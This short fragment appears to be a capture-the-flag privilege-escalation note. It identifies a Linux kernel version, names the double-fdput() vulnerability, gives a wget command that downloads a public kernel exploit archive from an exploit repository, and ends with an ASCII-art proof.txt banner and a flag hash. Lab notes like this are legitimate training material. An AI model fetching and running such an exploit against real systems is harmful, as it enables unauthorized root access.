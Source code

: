 >> check kernal version: 4.4.0-21-generic:
		->> Vulnerbility : double-fdput()
		->> Download : wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip

# proof.txt :

~~~~~~~~~~<(Congratulations)>~~~~~~~~~~
                          .-'''''-.
                          |'-----'|
                          |-.....-|
                          |       |
                          |       |
         _,._             |       |
    __.o`   o`"-.         |       |
 .-O o `"-.o   O )_,._    |       |
( o   O  o )--.-"`O   o"-.`'-----'`
 '--------'  (   o  O    o)  
              `----------`
b6b545dc11b7a270f4bad23432190c75162c4a2b

